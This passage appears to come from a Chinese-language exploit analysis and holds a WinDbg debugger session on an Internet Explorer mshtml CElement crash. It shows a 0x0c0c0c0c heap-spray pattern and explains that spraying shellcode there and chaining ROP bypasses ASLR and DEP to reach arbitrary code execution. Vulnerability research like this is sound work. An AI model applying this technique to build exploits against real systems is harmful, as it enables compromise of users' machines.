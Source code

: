 	eax=04e360f8 ebx=3db59ec0 ecx=7c9301db edx=00000028 esi=04e360f8 edi=02a3b8f0

	eip=3da9df9c esp=02a3b874 ebp=02a3b880 iopl=0 nv up ei pl nz na po nc

	cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00040202

	mshtml!CElement::CElement:

	3da9df9c 8bff mov edi,edi

	0:013> g

	Breakpoint 4 hit

	eax=04e37ad8 ebx=3db59ec0 ecx=7c9301db edx=00000028 esi=04e37ad8 edi=02a3b8f0

	eip=3da9df9c esp=02a3b874 ebp=02a3b880 iopl=0 nv up ei pl nz na pe nc

	cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00040206

	mshtml!CElement::CElement:

	3da9df9c 8bff mov edi,edi

	0:013> g

	Breakpoint 4 hit

	eax=04e37778 ebx=3db59ec0 ecx=7c9301db edx=00000028 esi=04e37778 edi=02a3b8f0

	eip=3da9df9c esp=02a3b874 ebp=02a3b880 iopl=0 nv up ei pl nz na pe nc

	cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00040206

	mshtml!CElement::CElement:

	3da9df9c 8bff mov edi,edi

	0:013> dd 04e0ef78

	04e0ef78 0c0c0c0c 0c0c0c0c 0c0c0c0c 0c0c0c0c

	04e0ef88 0c0c0c0c 0c0c0c0c 0c0c0c0c 0c0c0c0c

	04e0ef98 0c0c0c0c 0c0c0c0c 0c0c0c0c 0c0c0c0c

	04e0efa8 0c0c0c0c 0c0c0c0c 0c0c0c0c 0c0c0c0c

	04e0efb8 0c0c0c0c 0c0c0c0c 0c0c0c0c 00000c0c

	04e0efc8 eeeb9901 ff080000 000005f0 3db58498

	04e0efd8 c2c00c80 14000003 00000000 00000000

	04e0efe8 00000000 0000076c 00000640 00000ed8

之后来到了这里中断，可以看到后面还有个call
ecx，所以我们只需要把shellcode喷射到0x0c0c0c0c的位置就可以完成ASLR的绕过，然后再利用ROP技术来绕过DEP就可以实现任意代码执行。

	0:013> g

	(be0.40c): Access violation - code c0000005 (!!! second chance !!!)

	eax=0c0c0c0c ebx=04e0ef78 ecx=00000003 edx=00000000 esi=3db55244 edi=3db6a37c
